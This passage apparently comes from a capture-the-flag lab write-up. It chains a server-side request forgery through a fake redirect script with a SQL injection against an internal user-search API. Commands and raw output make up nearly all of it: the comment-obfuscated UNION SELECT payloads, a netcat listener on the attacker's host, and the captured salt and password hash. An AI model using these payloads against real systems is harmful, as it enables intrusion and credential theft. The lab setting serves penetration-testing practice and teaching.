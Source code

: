 ```bash
#first we fire the fake redirection
➜  sudo python3 redirect.py --url "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--" --port 80 --ip 0.0.0.0

#then we launch our netcat listener
➜  netcat -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 49490
POST / HTTP/1.1
Host: 10.10.16.6:4444
Accept: */*
Content-type: application/json
Content-Length: 738

{"webhookUrl":"http:\/\/10.10.16.6:4444","monitoredUrl":"http:\/\/10.10.16.6","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Sat, 07 Jan 2023 06:31:24 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/salt\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"174"}}

```
{: .nolineno }

With the command above we got some information :

```bash
username: susanne
avatar: 1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce

username: s03XIbeW14
avatar: 1.gravatar.com\/avatar
```
{: .nolineno }

Let’s go and get the passwords from the db

```bash
#The injection
➜  sudo python3 redirect.py "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--"

#The result
nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 43932
POST / HTTP/1.1
Host: 10.10.16.6:4444
Accept: */*
Content-type: application/json
Content-Length: 830

{"webhookUrl":"http:\/\/10.10.16.6:4444","monitoredUrl":"http:\/\/10.10.16.6","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Sat, 07 Jan 2023 06:50:47 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/passwd\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"264"}}
```
{: .nolineno }